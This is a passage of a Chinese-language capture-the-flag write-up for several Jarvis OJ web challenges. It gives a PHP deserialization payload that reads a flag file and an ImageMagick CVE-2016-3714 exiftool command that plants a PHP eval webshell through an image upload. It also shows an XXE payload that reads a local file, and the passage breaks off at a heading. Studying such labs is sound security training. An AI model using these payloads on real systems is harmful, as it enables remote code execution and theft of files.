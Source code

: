 ```bash
|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:88:\"print_r(file_get_contents(\"/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php\"));\";}
```
得到flag
# 图片上传漏洞
[CVE-2016-3714 - ImageMagick 命令执行分析](https://www.2cto.com/article/201605/505823.html)</br>
访问test.php得到phpinfo的相关信息。看到imagick
```bash
http://web.jarvisoj.com:32790/test.php
```
利用exiftool生成一句话木马
```bash
exiftool -label="\"|/bin/echo \<?php \@eval\(\\$\_POST\[x\]\)\;?\> > /opt/lampp/htdocs/uploads/y.php; \"" 1.png
```
然后上传文件的时候需要注意需要filetype=show或者filetype=win。在uploads上生成x.php
上传后用菜刀链接。这里我一直上传，连接失败。好像被别人上传了删除脚本

# PHPINFO
[xml注入实体攻击](http://chybeta.club/2017/07/04/%E5%B0%8F%E8%AF%95XML%E5%AE%9E%E4%BD%93%E6%B3%A8%E5%85%A5%E6%94%BB%E5%87%BB/)</br>
从源码中
```bash
function XHR() {
        var xhr;
        try {xhr = new XMLHttpRequest();}
        catch(e) {
            var IEXHRVers =["Msxml3.XMLHTTP","Msxml2.XMLHTTP","Microsoft.XMLHTTP"];
            for (var i=0,len=IEXHRVers.length;i< len;i++) {
                try {xhr = new ActiveXObject(IEXHRVers[i]);}
                catch(e) {continue;}
            }
        }
        return xhr;
    }

function send(){
 evil_input = document.getElementById("evil-input").value;
 var xhr = XHR();
     xhr.open("post","/api/v1.0/try",true);
     xhr.onreadystatechange = function () {
         if (xhr.readyState==4 && xhr.status==201) {
             data = JSON.parse(xhr.responseText);
             tip_area = document.getElementById("tip-area");
             tip_area.value = data.task.search+data.task.value;
         }
     };
     xhr.setRequestHeader("Content-Type","application/json");
     xhr.send('{"search":"'+evil_input+'","value":"own"}');
}

```
可以知道向/api/v1.0/try发送post请求。
抓包改包，将Content-Type改为application/xml，然后post数据如下:
```bash
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [<!ENTITY  file SYSTEM "file:////home/ctf/flag.txt">]>
<root>&file;</root>
```
# simple inject 